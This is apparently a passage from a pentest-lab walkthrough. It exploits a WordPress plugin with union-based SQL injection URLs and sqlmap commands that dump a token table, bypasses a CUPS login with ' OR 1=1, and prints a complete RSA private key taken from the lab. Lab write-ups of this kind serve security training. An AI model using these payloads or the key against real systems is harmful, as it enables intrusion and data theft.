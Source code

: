 

Now we can use SQL injection without getting 403 access code.

```
http://172.16.0.11/wp-content/plugins/kittycatfish-2.2/base.css.php?kc_ad=16+union+select+0x6b635f61645f637373,%28select%20@@version%29

http://172.16.0.11/wp-content/plugins/kittycatfish-2.2/base.css.php?kc_ad=16+union+select+0x6b635f61645f637373,%28SELECT%20GROUP_CONCAT%28table_name%29%20FROM%20information_schema.tables%20WHERE%20table_schema=database%28%29%20GROUP%20BY%20table_name%20LIMIT%200,1%29

http://172.16.0.11/wp-content/plugins/kittycatfish-2.2/base.css.php?kc_ad=16+union+select+0x6b635f61645f637373,(SELECT%20GROUP_CONCAT(column_name)%20FROM%20information_schema.columns%20WHERE%20table_name=0x746c5f746f6b656e%20GROUP%20BY%20table_name%20LIMIT%200,1)

OR

sqlmap -u "http://172.16.0.11/wp-content/plugins/kittycatfish-2.2/base.css.php?kc_ad=16"  --dbms=mysql --level=5 --risk=3 -v 3 --threads 10 --string="left: 50%;"

sqlmap --random-agent -u "http://172.16.0.11/wp-content/plugins/kittycatfish-2.2/base.css.php?kc_ad=16" --dbms=mysql --level=5 --risk=3 -v 3 --threads 10 --string="left: 50%;" -D testlabdb -T tl_token --dump

```

### CUPS Token

Now that we have a vpn connection to 192.168.101.10, we can connect to CUPS, http://172.16.0.14. We are presented with a login screen which can be bypassed by ’ OR 1=1;–

There we have a convert one of the file name hex to ascii and also save one one the RSA private key for later use.

```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA4CxmKK2/kvV0+srp24bVZm+yYvCz+rvgHHxX1w7F0oD8aUDI
won79K9XpntFDPUvtJRMg9WqK/zKUwLsMQLGWT66PT4GVbQw4Nr56rOrBIuag/qg
o9WcX0AfIyFYFCNz0TnLfRXSDcSQY0CRK8WfKx5c8uP2kudtzAGv5GQCpSjM2uNV
shOu7xmgo/AMUQvPi8kvD/gAme9G8WkTgpVpAwlsthjxQ9fEO6abHHkjbGGec0O8
4T7Bo2nU8bHjr6Jd+dzUAvytblG1yNvGIybAFAsVqUHjbt9wGZgFKr1kA+3ZCbyF
qFZZ37dpZr2grZXwzlCtPUJGuMfCq7N0ZhmcAwIDAQABAoIBAQDCXPx+TJcLXhJ8
164HjlI8LKAoNLZ3sKlRSWYHqmFOcFNpFqh6M5Tmw5hlWf+2imdAVEw7Cegvl0/8
xU3v+I3tFvv22W44pLC0ZGfHXNvsZvYjdAwPwMeBtmDI3sI1Q7/JKikKXP7wvPrL
c1Hq979XbU39sjU5jbqe5N+SUDwS4Tu79L0uXehnqvCSlyIU9joDhvW87DeaLRaQ
wwkKR9gnPtiKebZ73VGParJ42CZlRgfEOvoLWUk+YrhRfZ9r4uva0IHbZ1LhqNcL
k0OlKEDUDzuju0/YwgBSZVSrhkCAnCnipsxQMc4g2aytPOTdKz4BtF+cZV/rXhyM
kSPIeh1xAoGBAPJfcCQWqsq/dwwOC9I9jWj4W9xAFPbaPSq1oGwNr0ugZ/4DZLGe
glGte8iG/Tc1Lb1Ege2dYPRR5OeFhyo8tADPKleFvDBYGN2asf4JirljxrW5F+ON
q5paXqjbaBKk/Z6f08UlwxjSHRHOWqEvYZkm5bAxrufNKBVpwVWHU6eNAoGBAOzH
AryHBdo45qLnzJR87zDftNNrualVmhWu+h+I7zj4hr52gM/TheHL/ODJZCyZU3vt
7ncDjUM91xwh63vkCiByEYk4vTGnmaj9brmndracJ7jwwSUn/YqPj0D3yD0lrpxd
PLn0c1ic5jaoTSWZN748PoPnP+CPvhjQYvxX5OXPAoGALmnEScTlc+nyXCaccOhE
miNlQ+opmZP1PqaFT+vw876F64iu0ayu/AEiwSXIe7f9SE9EKkKG/IJqOUPCvH3f
YoBIdXUwsnlMWbNz/lfJbvMCbG5Detn4UJiZo/BQH7Hht2mX3hr7H1etJWnExTUT
lYZzWahI/C23TVJxKXW+uUkCgYEAnLDOhMit/M3vAxt27UUIXUWNuuPtSmH9yB+1
cq0B8qe1M9HkSKRoUxbVUES2QDVvY/H+/0+gakFAW2OvHJu6f+I87JxZx8RsEcM1
RTMngo0wVFku2FHwnYOHf6z6HE0VknC5QS4eLyQVzVHvS9RraT8g99VPFmLKoE43
U1svJU0CgYAecYtH3ZvIwPA85sTuTkKAGMmvRxzPnQkyjUF9BwN+B1mfL4uZyJVy
VVWhCwXf/h9G3fKzuV0m0Dz6O7r5DqRqs0uCNbxPaS8qWPcRckwV2Y9htMjXLtXU
nOV4UZBbQSZb/AoSFdcCBjonbudkiAxzm0STdiQ92kZNavvfZAjXQw==
-----END RSA PRIVATE KEY-----
```
